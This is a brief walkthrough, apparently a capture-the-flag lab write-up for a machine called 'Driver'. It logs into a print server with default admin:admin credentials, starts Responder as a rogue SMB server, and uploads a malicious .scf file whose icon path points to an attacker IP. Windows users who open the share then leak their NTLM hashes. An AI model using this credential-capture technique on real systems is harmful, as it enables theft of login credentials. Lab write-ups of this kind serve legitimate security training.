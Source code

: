 # Driver

1. Log into Print Server <admin:admin>

2. Startup SMB server
````
responder --lm -v -I tun0
````

3. Upload the malicious file to coordinate the target connecting back with SMB credentials
steal-hash.scf
````     
[Shell]
Command=2
IconFile=\\10.10.14.7\share\pentestlab.ico
 
[Taskbar]
Command=ToggleDesktop
````





[Shell Command File](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)
